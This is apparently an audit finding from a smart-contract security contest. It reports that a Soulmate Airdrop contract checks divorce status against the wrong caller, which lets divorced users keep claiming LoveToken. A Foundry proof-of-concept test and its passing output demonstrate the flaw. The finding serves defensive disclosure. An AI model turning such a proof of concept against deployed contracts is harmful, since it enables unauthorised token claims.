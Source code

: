 
### Relevant GitHub Links

https://github.com/Cyfrin/2024-02-soulmate/blob/b3f9227942ffd5c443ce6bccaa980fea0304c38f/src/Airdrop.sol#L53

https://github.com/Cyfrin/2024-02-soulmate/blob/b3f9227942ffd5c443ce6bccaa980fea0304c38f/src/Soulmate.sol#L131C1-L133C6

## Vulnerability Details

Wrong check for divorce status in `Airdrop.claim()` lead to possibility to collect LoveToken even if the user is divorced.

## POC

When we call `soulmateContract.isDivorced()` from `Airdrop.claim()` the `msg.sender` will be Airdrop contract address, who can never be in a `Soulmate.divorced` mapping.

Add this test to `AirdropTest.t.sol` and run via `forge test --mt test_Divorce` to see it success.

```javascript
function test_Divorce() public {
        _mintOneTokenForBothSoulmates();

        vm.prank(soulmate1);

        soulmateContract.getDivorced();
        assertTrue(soulmateContract.isDivorced() == true);

        vm.warp(block.timestamp + 200 days + 1 seconds);

        vm.prank(soulmate1);
        airdropContract.claim();

        assertTrue(loveToken.balanceOf(soulmate1) == 200 ether);

        vm.prank(soulmate2);
        airdropContract.claim();

        assertTrue(loveToken.balanceOf(soulmate2) == 200 ether);
    }
```

Output:

```text
Running 1 test for test/unit/AirdropTest.t.sol:AirdropTest
[PASS] test_Divorce() (gas: 403677)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.84ms
```

## Tools Used
